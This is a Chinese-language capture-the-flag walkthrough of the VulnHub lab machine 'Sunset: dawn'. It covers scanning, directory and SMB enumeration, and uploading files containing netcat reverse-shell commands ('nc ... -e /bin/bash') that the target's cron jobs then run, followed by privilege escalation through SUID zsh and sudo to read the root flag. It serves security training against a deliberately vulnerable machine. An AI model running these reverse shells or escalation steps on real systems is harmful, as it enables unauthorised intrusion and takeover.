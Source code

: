 # Sunset:dawn

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：dawn（IP：192.168.56.105）

下载：https://www.vulnhub.com/entry/sunset-dawn,341/

## Let's go

```
nmap -A 192.168.56.105
```

![](./img/Sunset：dawn-01.png)

> **浏览网页并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.105/
```

![](./img/Sunset：dawn-02.png)

![](./img/Sunset：dawn-03.png)

> **只有 management.log 允许查看，我们将他保存下来**

```
cat ./下载/management.log
```

![](./img/Sunset：dawn-04.png)

> **我们得到一些有价值的信息**
>
> 用户：dawn，ganimedes
>
> dawn下有一个ITDEPT目录
>
> 定时计划：product-control，web-control，phobos

```
enum4linux -a 192.168.56.105
```

![](./img/Sunset：dawn-05.png)

![](./img/Sunset：dawn-06.png)

> **和我们上面得到的信息联系起来了，所有出口一定在这里**

```
smbclient //192.168.56.105/ITDEPT		#使用SMB访问ITDEPT目录
```

![](./img/Sunset：dawn-07.png)

> **并没有发现 product-control，web-control 两个文件，我们可以尝试上传这两个文件等待定时计划执行**

```
echo 'nc -nv 192.168.56.102 4444 -e /bin/bash' > product-control
echo 'nc -nv 192.168.56.102 4445 -e /bin/bash' > web-control
put product-control
put web-control
```

![](./img/Sunset：dawn-08.png)

```
#监听等待
nc -lp 4444
nc -lp 4445
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](./img/Sunset：dawn-09.png)

![](./img/Sunset：dawn-10.png)

```
find / -perm -u=s -type f 2>/dev/null
zsh
cat /root/flag.txt
```

![](./img/Sunset：dawn-11.png)

![](./img/Sunset：dawn-13.png)

```
sudo -l
sudo sudo -s
cat /root/flag.txt
```

![](./img/Sunset：dawn-12.png)